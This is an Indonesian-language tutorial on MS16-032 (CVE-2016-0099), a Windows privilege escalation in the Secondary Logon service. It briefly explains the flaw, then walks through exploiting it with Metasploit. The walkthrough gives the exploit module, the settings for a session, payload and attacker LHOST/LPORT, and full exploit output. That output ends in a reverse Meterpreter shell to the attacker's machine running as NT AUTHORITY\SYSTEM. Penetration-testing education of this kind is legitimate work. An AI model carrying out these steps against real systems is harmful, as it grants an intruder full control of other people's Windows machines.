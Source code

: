 # MS16-032

## A. Apa itu MS16-032?

[MS16-032](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-0099) adalah kerentanan local privilege escalation pada sistem operasi Windows yang ditemukan pada layanan Secondary Logon Service (`seclogon.dll`). Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk menaikkan hak akses menjadi `SYSTEM`, yaitu level tertinggi di sistem Windows.

Eksploitasi ini terjadi karena adanya kesalahan pengelolaan handle token proses yang dilakukan oleh `seclogon.dll`, sehingga memungkinkan penyerang untuk menyisipkan proses baru dengan hak akses `SYSTEM` menggunakan teknik `CreateProcessWithLogonW()`.

## B. Detail Teknis
- CVE ID: `CVE-2016-0099`
- Buletin: `MS16-032`
- Tanggal Rilis: `8 Maret 2016`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `seclogon.dll`
- Platform: `Windows`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `7.8` (Tinggi)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS16-032`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit MS16-032:

   ```
   msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] PS1 loaded from /usr/share/metasploit-framework/data/exploits/CVE-2016-0099/cve_2016_0099.ps1
   [*] Writing payload file, C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1...
   [*] Compressing script contents...
   [+] Compressed size: 3723
   [*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

   [?] Operating system core count: 2
   [>] Duplicating CreateProcessWithLogonW handle
   [?] Done, using thread handle: 1112

   [*] Sniffing out privileged impersonation token..

   [?] Thread belongs to: svchost
   [+] Thread suspended
   [>] Wiping current impersonation token
   [>] Building SYSTEM impersonation token
   [ref] cannot be applied to a variable that does not exist.
   At line:200 char:59
   +         $dhA = [Ntdll]::NtImpersonateThread($qdY, $qdY, [ref]$qi <<<< )
       + CategoryInfo          : InvalidOperation: (qi:Token) [], RuntimeExceptio 
      n
       + FullyQualifiedErrorId : NonExistingVariableReference
 
   [!] NtImpersonateThread failed, exiting..
   [+] Thread resumed!

   [*] Sniffing out SYSTEM shell..

   [>] Duplicating SYSTEM token
   Cannot convert argument "0", with value: "", for "DuplicateToken" to type "Syst
   em.IntPtr": "Cannot convert null to type "System.IntPtr"."
   At line:259 char:35
   +     $dhA = [Advapi32]::DuplicateToken <<<< ($nxfWT, 2, [ref]$isTl)
       + CategoryInfo          : NotSpecified: (:) [], MethodException
       + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
   [>] Starting token race
   [>] Starting process race
   [!] Holy handle leak Batman, we have a SYSTEM shell!!

   EpGsSpsRhiU1UMP9YNyfQwBdFAPYrXHh
   [+] Executed on target machine.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 8 opened (192.168.1.42:4444 -> 192.168.1.50:49161) at 2025-05-14 03:42:55 +0700
   [+] Deleted C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
